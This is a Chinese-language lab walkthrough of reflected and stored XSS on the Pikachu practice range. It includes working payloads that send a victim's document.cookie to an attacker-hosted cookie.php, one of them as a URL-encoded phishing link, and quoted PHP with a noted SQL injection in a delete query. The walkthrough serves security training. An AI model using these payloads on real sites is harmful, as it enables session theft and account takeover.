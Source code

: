 登陆后有一个输入框，输入：
```
<script>alert(document.cookie)</script>
```

成功弹窗<br />![image-20210623151930881.png](_img/assets/1655882891634-b01aee64-79ae-49a5-aa1d-a482f0189ed9.png)


# 利用反射性xss盗取cookie模拟实战

## 环境
攻击机：192.168.1.5<br />受害者：192.168.1.8<br />漏洞服务器：192.168.1.12


## 模拟实战
在攻击机里面搭建pikachu靶场进入管理工具里的XSS后台，初始化数据库<br />![image-20210625144227777.png](_img/assets/1655882923935-78dee977-8444-44f8-8b18-9378b8bd39a9.png)

修改pikachu/pkxss/xcookie下的cookie.php，将**IP地址改为漏洞服务器的地址**<br />![image-20210625144334470.png](_img/assets/1655882928116-4b449c7b-e0ca-4bab-90ba-d98dc4d1af6b.png)

**方法一**<br />构造payload
```
<script>document.location = 'http://192.168.1.5/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

当用户提交我们的payload时，成功获取到受害者的cookie<br />![image-20210625144527897.png](_img/assets/1655882935129-d6a83cf9-3da5-4bac-8e36-ddd45129b06a.png)

![image-20210625145112717.png](_img/assets/1655882938928-495856ae-fb9b-4949-8ab3-ca781b9641f9.png)

**方法二**<br />我们可以直接构造一个带有Payload的URL，诱使受害者点击就能取得Cookie
```
http://192.168.1.12/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2F192.168.1.5%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&submit=submit
```

成功获取到cookie<br />![image-20210625145211023.png](_img/assets/1655882946004-6b5d83dd-c891-46c6-8a85-fdd4e06f5bac.png)


# 存储型xss

## 查看关键源码
```php
$link=connect();
$html='';
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>数据库出现异常，提交失败！</p>";
    }
}


if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){

    //彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
```